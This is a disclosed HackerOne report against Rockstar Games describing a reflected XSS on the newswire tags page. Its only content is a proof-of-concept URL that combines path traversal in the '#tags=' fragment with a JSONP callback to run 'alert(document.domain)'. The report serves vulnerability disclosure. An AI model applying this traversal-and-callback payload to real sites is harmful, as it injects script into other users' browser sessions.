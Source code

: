 # Reflected XSS via #tags= while using a callback in newswire  http://www.rockstargames.com/newswire

## Report Details
- **Report ID**: 153618
- **URL**: https://hackerone.com/reports/153618
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-07-25T06:15:57.105Z
- **Disclosed**: 2017-03-16T22:23:53.287Z

## Reporter
- **Username**: nahamsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rockstargames

## Vulnerability Information
Hello,

Here's the link:

http://www.rockstargames.com/newswire/tags#/?tags=../../comments_dal/users/getGlobalLoginSettings.json?callback=alert%28document.domain%29//

Thanks,
Ben

## Attachments
No attachments
